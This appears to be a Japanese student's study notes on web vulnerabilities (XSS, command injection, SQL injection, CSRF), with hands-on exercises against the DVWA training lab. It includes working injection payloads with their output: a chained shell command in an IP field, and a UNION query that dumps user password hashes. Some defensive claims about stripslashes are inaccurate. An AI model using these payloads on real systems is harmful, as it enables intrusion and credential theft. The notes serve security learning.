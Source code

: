 # Webサービスの代表的な脆弱性を理解する 
[課題内容](https://airtable.com/appPxhCPFYGqqN9YU/tblVlFr2q4lIqDKYc/viwX8r6DpCRp80swL/recTGqGmmytK2UJAX?blocks=hide)

## 課題1
- 脆弱性の仕組み、発生し得る被害、対処法を解説してください
  - XSS
    - 攻撃者が悪意のあるクライアント側のコードをWebサイトに注入(injection)することができるセキュリティエクスプロイトのこと
      - 脆弱性の仕組み
        - 信頼されていないソース (多くの場合、リクエスト) を介してウェブアプリにデータが入力されたり、悪意のあるコンテンツが検証されずに動的なコンテンツがユーザーに送信されたりした場合に発生
        - クッキーのセッション情報などの個人情報を攻撃者に送信したり、攻撃者が管理するWebページに被害者をリダイレクトさせたり、脆弱性のあるサイトを装って悪意のある操作を行ったりすることが多い
        <img src="./persistent-xss-attack-wordpress.webp">
      - 攻撃手法の種類
        - Stored XSS attack
          - injected script は、ターゲットのサーバに永続されます。そして、被害者は、Webブラウザがデータのリクエストを送信すると、この悪意のある script をサーバから取得。
        - Reflected XSS attack 
          - ユーザがだまされて悪意のあるリンクをクリックしたり、細工されたフォームを送信したり、悪意のあるサイトを閲覧したりすると、注入されたコードは脆弱性のあるWebサイトに移動。Webサーバは、注入されたスクリプトを、エラーメッセージ、検索結果、またはリクエストの一部としてサーバに送信されたデータを含むその他のレスポンスなど、ユーザのブラウザに反映。ブラウザは、レスポンスがユーザが既にやり取りしたことのある「信頼できる」サーバからのものであると想定しているため、コードを実行。
        - DOM ベースの XSS attack 
          - payload は、元のクライアントサイドスクリプトが使用していた DOM 環境 を変更した結果、実行。ページ自体は変わりませんが、DOM 環境を悪意を持って改変した結果、ページに含まれるクライアント側のコードが予期せぬ形で実行。 
      - 発生し得る被害
        - ユーザの個人情報の流出
        - 攻撃者が他の個人情報を取得する
      - 対処法
        - データの無力化
        - データの検証
        - フィルターをエスケープする
  - コマンドインジェクション
    - 不正な入力を処理するプログラム内で、実行権限を持つユーザが入力したコマンドを実行する脆弱性のことである。
    - 発生し得る被害
      - 不正な入力を受け取った場合に、不正なコマンドが実行され、ユーザが意図しない操作が行われたり、重要な情報が窃取されたりなどが考えられる。
    - 対処法 
      - 入力値を正規表現による文字列置換により、コマンドを実行しない形式に変換してから実行する。
        - コマンドを実行する前に適切な入力チェックを行うなどの対策をとるのが望ましい。
        - 実行権限を持つユーザには厳重なアクセス管理を行い、不正なアクセスを防止することも重要である。
  - SQLインジェクション
    - Webサイトなどを構成するプログラムからSQL文を発行する際に、不正なSQL文を埋め込む攻撃手法のこと
      - 仕組みとしては、Webサイトなどを構成するプログラムがユーザーが入力した情報を元にSQL文を発行している際に、不正なSQL文を埋め込むことで、攻撃者が意図した動作を行わせる手法です。 
    - 発生し得る被害
      - データ改ざん、情報漏洩、サーバーの不正アクセスなどが挙げられます。 
    - 対処法
      - SQL文の文字列結合を防止することが重要。インジェクションを起こしやすい文字列をエスケープすることなども重要です。また、ログを取り、不正なアクセスがあったら早急に発見し、対処することが重要です。
  - CSRF(Cross-Site Request Forgery)
    - 別のWebサイトから悪意のある攻撃者が、Webアプリケーションの相手先を知らないユーザを操作させて、不正な処理を強制する攻撃行為。
    - 発生し得る被害
      - Webアプリケーションを操作して、悪意のあるユーザが認められない情報を閲覧したり、不正な情報を投稿したり、データを破壊したりする可能性があります。悪意のあるユーザが、他のユーザのアカウントにログインし、情報を変更したり、悪意のあるソフトウェアをインストールしたりする可能性がある
    - 対処法
      - CSRFを防ぐためにトークンを使用して、リクエストを認証することが推奨されています。また、CSRF対策を検証するために、CSRFテストツールを使用することも可能です。また、リクエストを検証するために、referrer情報を使用することも可能

[MDN/Types_of_attacks](https://developer.mozilla.org/ja/docs/Web/Security/Types_of_attacks)

## 課題2

## 課題3
### Damn Vulnerable Web Application の環境を立ち上げる
```
$ docker pull vulnerables/web-dvwa
$ docker run --rm -it -p 80:80 vulnerables/web-dvwa

## 開発環境のパス
http://127.0.0.1/login.php

username: admin, password: password
```

### コマンドインジェクション
#### 攻撃手法
```shell
## enter an IP Address
$ 127.0.0.1; whoami; hostname; ifconfig; ls ../

## response
PING 127.0.0.1 (127.0.0.1): 56 data bytes
64 bytes from 127.0.0.1: icmp_seq=0 ttl=64 time=0.055 ms
64 bytes from 127.0.0.1: icmp_seq=1 ttl=64 time=0.104 ms
64 bytes from 127.0.0.1: icmp_seq=2 ttl=64 time=0.127 ms
64 bytes from 127.0.0.1: icmp_seq=3 ttl=64 time=0.103 ms

--- 127.0.0.1 ping statistics ---
4 packets transmitted, 4 packets received, 0% packet loss
round-trip min/avg/max/stddev = 0.055/0.097/0.127/0.026 ms
www-data
d6bbe7e5c894
brute
captcha
csp
csrf
exec
fi
javascript
sqli
sqli_blind
upload
view_help.php
view_source.php
view_source_all.php
weak_id
xss_d
xss_r
xss_s
```

#### 有効な防御手段
- トークンを検証する
- `stripslashes` でコマンドの無効化など
  - `127.0.0.1; whoami;` →　`;` を無効化する 
<details>
<summary>コマンドインジェクションを防御するソース</summary>

```php
<?php
if( isset( $_POST[ 'Submit' ]  ) ) {
    // Check Anti-CSRF token
    checkToken( $_REQUEST[ 'user_token' ], $_SESSION[ 'session_token' ], 'index.php' );

    // Get input
    $target = $_REQUEST[ 'ip' ];
    $target = stripslashes( $target );

    // Split the IP into 4 octects
    $octet = explode( ".", $target );

    // Check IF each octet is an integer
    if( ( is_numeric( $octet[0] ) ) && ( is_numeric( $octet[1] ) ) && ( is_numeric( $octet[2] ) ) && ( is_numeric( $octet[3] ) ) && ( sizeof( $octet ) == 4 ) ) {
        // If all 4 octets are int's put the IP back together.
        $target = $octet[0] . '.' . $octet[1] . '.' . $octet[2] . '.' . $octet[3];

        // Determine OS and execute the ping command.
        if( stristr( php_uname( 's' ), 'Windows NT' ) ) {
            // Windows
            $cmd = shell_exec( 'ping  ' . $target );
        }
        else {
            // *nix
            $cmd = shell_exec( 'ping  -c 4 ' . $target );
        }

        // Feedback for the end user
        echo "<pre>{$cmd}</pre>";
    }
    else {
        // Ops. Let the user name theres a mistake
        echo '<pre>ERROR: You have entered an invalid IP.</pre>';
    }
}

// Generate Anti-CSRF token
generateSessionToken();
```
</details>

### SQLインジェクション
#### 攻撃手法
```shell
## enter sql injection
$ ' UNION SELECT user, password FROM users#'

## response
ID: ' UNION SELECT user, password FROM users#'
First name: admin
Surname: 5f4dcc3b5aa765d61d8327deb882cf99
ID: ' UNION SELECT user, password FROM users#'
First name: gordonb
Surname: e99a18c428cb38d5f260853678922e03
ID: ' UNION SELECT user, password FROM users#'
First name: 1337
Surname: 8d3533d75ae2c3966d7e0d4fcc69216b
ID: ' UNION SELECT user, password FROM users#'
First name: pablo
Surname: 0d107d09f5bbe40cade3de5c71e9e9b7
ID: ' UNION SELECT user, password FROM users#'
First name: smithy
Surname: 5f4dcc3b5aa765d61d8327deb882cf99
```

#### 有効的な防御手段
- `stripslashes` を使用する
  - 入力文字内のシングルクォート(’)はダブルクォート(")に置換
- `mysql_real_escape_string` を使用する
  - すべての (') の前に (/)が追加
<details>
    <summary>SQLインジェクションを防御するソース</summary>

```php
<?php
if( isset( $_GET[ 'Submit' ] ) ) {
    // Check Anti-CSRF token
    checkToken( $_REQUEST[ 'user_token' ], $_SESSION[ 'session_token' ], 'index.php' );

    // Get input
    $id = $_GET[ 'id' ];

    // Was a number entered?
    if(is_numeric( $id )) {
        // Check the database
        $data = $db->prepare( 'SELECT first_name, last_name FROM users WHERE user_id = (:id) LIMIT 1;' );
        $data->bindParam( ':id', $id, PDO::PARAM_INT );
        $data->execute();
        $row = $data->fetch();

        // Make sure only 1 result is returned
        if( $data->rowCount() == 1 ) {
            // Get values
            $first = $row[ 'first_name' ];
            $last  = $row[ 'last_name' ];

            // Feedback for end user
            echo "<pre>ID: {$id}<br />First name: {$first}<br />Surname: {$last}</pre>";
        }
    }
}

// Generate Anti-CSRF token
generateSessionToken();
?>
```
</details>

[SQL_injectionの解説動画](https://www.youtube.com/watch?v=5bj1pFmyyBA)
